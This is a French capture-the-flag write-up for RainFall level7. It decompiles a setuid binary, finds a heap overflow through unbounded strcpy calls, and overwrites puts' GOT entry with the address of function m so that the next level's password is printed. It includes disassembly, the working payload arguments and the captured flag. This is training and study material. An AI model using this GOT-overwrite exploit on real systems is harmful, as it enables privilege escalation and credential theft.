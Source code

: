 #### Etape 1 : 
On trouve un executable ./level7 qui segfault lorsqu'on lui passe aucun argument mais qui imprime 2 tilde lorsqu'on lui passe 2 arguments ou plus.
```bash
level7@RainFall:~$ ./level7
Segmentation fault (core dumped)
level7@RainFall:~$ ./level7 aa
Segmentation fault (core dumped)
level7@RainFall:~$ ./level7 aa aa
~~
level7@RainFall:~$ ./level7 aa aa aaa
~~
``` 

#### Etape 2 : Décompilation / Compréhension
On decide de décompiler le binaire pour comprendre son fonctionnement.(voir source.c)


En analysant le code, on peut voir une fonction m inutilisée qui affiche le contenu de la global c qui elle grace au fgets récupère le contenu du fichier .pass du level8.
```c
__stream = fopen("/home/user/level8/.pass","r");
  fgets(c,0x44,__stream);
``` 
En examinant le code on peut voir que le main malloc 2 structure en passant par la variable pvVar2, et copie les av[1] et av[2] dans ces structures.
```c
  pvVar2 = (void *)malloc(8);
  pvVar1 = (void *)malloc(8);
  strcpy((char *)pvVar2,av[1]);
  strcpy((char *)pvVar1,av[2]);
```

Comme vous pouvez le voir, il y a un strcpy qui copie av[1] et av[2] dans des structures de 8 octets. Nous voyons donc une ressemblance au level precedent.

#### Etape 3 : Vulnérabilité

Le strcpy n'étant pas limité par un nombre de caractéré écris, il est sujet au buffer overflow.
Nous voyons que pendant le premier appel de strcpy(), on peux reecrire l'adresse utiliser comme destination pour le deuxième strcpy().


#### Etape 4 : Objectif

Comme dans le level5 nous pouvons réecrire l'adresse de la fonction puts par celle de la fonction m.

#### Etape 5 : Informations manquantes

Il me manque l'offset pour déterminé a combien de caractère ce trouvera la nouvelle adresse a écrire
J'ai généré un buffer grâce à : https://wiremask.eu/tools/buffer-overflow-pattern-generator

Pour le strcpy 1 : 
En éxécutant le programme depuis gdb ou ltrace avec le buffer en question j'obtiens une adresse qui correspond au dernier caractère écrit avant le SegFault. Ce qui me permet de les identifier et obtenir la valeur de 20. pour le premier strcpy.

Nous retrouvons dans la Global Offset Table l'adresse de la fonction puts.
```bash
(gdb) disass main
Dump of assembler code for function main:
   0x08048521 <+0>:	push   %ebp
   0x08048522 <+1>:	mov    %esp,%ebp
=> 0x08048524 <+3>:	and    $0xfffffff0,%esp

[...]

    0x080485e4 <+195>:	movl   $0x8049960,(%esp)
   0x080485eb <+202>:	call   0x80483c0 <fgets@plt>
   0x080485f0 <+207>:	movl   $0x8048703,(%esp)
   0x080485f7 <+214>:	call   0x8048400 <puts@plt>
   0x080485fc <+219>:	mov    $0x0,%eax
   0x08048601 <+224>:	leave
   0x08048602 <+225>:	ret
End of assembler dump.
(gdb) disass 0x8048400
Dump of assembler code for function puts@plt:
   0x08048400 <+0>:	jmp    *0x8049928
   0x08048406 <+6>:	push   $0x28
   0x0804840b <+11>:	jmp    0x80483a0
End of assembler dump.
(gdb)
```
L'adresse de puts est 0x8049928 ou en little endian \x28\x99\x04\x08.
Notre premier exploit prendra la forme suivante :
```bash
$(python -c 'print "a" * 20 + "\x28\x99\x04\x08"')
```

strcpy 2 :
Nous cherchons l'adresse de la fonction m pour  remplacer celle de puts.
avec ghidra ou gdb nous pouvons trouver l'adresse de la fonction m qui est 0x80484f4 ou en little endian \xf4\x84\x04\x08.

Notre second exploit prendra la forme suivante :
```bash
$(python -c 'print "\xf4\x84\x04\x08"')
```



#### Etape 6 : Execution

Il ne reste plus qu'a éxecuter le programme avec les 2 arguments precedents.

```bash
level7@RainFall:~$ ./level7 $(python -c 'print "a" * 20 + "\x28\x99\x04\x08"') $(python -c 'print "\xf4\x84\x04\x08"')
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
 - 1722763803
level7@RainFall:~$
```